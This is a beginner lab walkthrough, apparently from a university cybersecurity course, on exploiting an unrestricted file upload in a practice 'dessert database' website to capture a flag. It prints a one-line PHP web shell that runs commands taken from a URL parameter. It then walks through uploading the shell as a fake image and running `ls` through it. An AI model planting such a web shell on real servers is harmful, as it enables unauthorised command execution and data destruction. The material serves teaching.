 # Dessert Database File Upload Exploitation
This page will help you learn how Alice and Bob's dessert database works
and help you hack into it just like those L33k3ers!

## Lets Begin
First, lets begin by going to the database itself...
> <a href="http://desserts.gel.webfactional.com/" target="_blank">DATABASE</a>

Here you will see the option to upload a picture of your favorite dessert!

Go ahead, find a picture of your favorite dessert, download the image to your computer, then upload!

Cool right?

Now here is the part that Alice and Bob want you to pay close attention to...

## Exploit
We want you to download this file below...

> <a href="https://udel.codes/cyber2/Hack.php" target="_blank">Hacky File</a>

The contents of this file are the following

`<? print_r(system($_GET['cmd'])); ?>`

What this line of code does is it allows for us to inject (enter) bash commands into the url. These bash commands can do all types of malicious things such as go list all the files the website contains, delete files, ect. We could destroy the website if we wanted to!
> But we won't do that cause we are not the L33k3ers!

Now that you know what know what this file does, upload that file just as you did with your dessert image

Once you do that, you will be directed to a page that says 
> We got your cake image: /cakes/Hack.php

With a little image underneath

Right click on this image and select, **"Open Image in new Tab"**

Once at the new webpage, go to the url and at the very end put this statement...

`?cmd=ls`

Hit enter, and now you see a list of all the files that the website contains! Crazy right! 

The command that is executed is directly after the `=`, so like we learned in the bash tutorial, `ls` prints all the contents of a directory. Now, find the flag!







